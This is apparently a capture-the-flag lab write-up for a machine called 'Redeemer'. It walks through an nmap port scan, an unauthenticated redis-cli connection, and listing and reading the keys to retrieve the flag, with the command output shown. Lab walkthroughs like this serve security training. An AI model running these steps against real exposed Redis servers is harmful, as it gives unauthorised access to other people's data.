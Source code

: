 # Redeemer

# TL;DR

- We connect to the redis server running on the target maching, enumerate the database and retrieve the flag,

# Enumeration

- `ping 10.129.22.160` : to test if the server us up and running.
- We scan the host to determine running services:
```
nmap -p- -sV 10.129.22.160
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-28 06:40 PST
Nmap scan report for 10.129.22.160
Host is up (0.089s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.18 seconds
```
- From the scan we find `redis` service running on port `6379/tcp`.

# Foothold

 - We can connect to the redis service using `netcat` or the `redis-cli`. We can install the `redis-cli` with the following command incase it does not already exist on our local host: `sudp apt install redis-tools`
 - We can see the flags that can be used with the cli with the following command: `redis-cli --help`.
 - We can run the following command to connect to the server:
```
redis-cli -h 10.129.22.160    
10.129.22.160:6379>
```
- Once connect to the server we can run `info` to get information about what the redis server contains:
```
10.129.22.160:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0

[**SNIP**]

# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```
- From the output above we find out that the redis server contains only `one database` at `index 0` and that database contains `4 keys`.
- We can select the database with the following command: `select 0`:
```
10.129.22.160:6379> select 0
OK
```
- Once the database is selected we can display all the keys with `keys *`:
```
10.129.22.160:6379> keys *
1) "numb"
2) "temp"
3) "flag"
4) "stor"
```
- We can view the value of each key by running `get <key>` and get the value of the flag:
```
0.129.22.160:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"
10.129.22.160:6379> get temp
"1c98492cd337252698d0c5f631dfb7ae"
10.129.22.160:6379> get stor
"e80d635f95686148284526e1980740f8"
10.129.22.160:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```
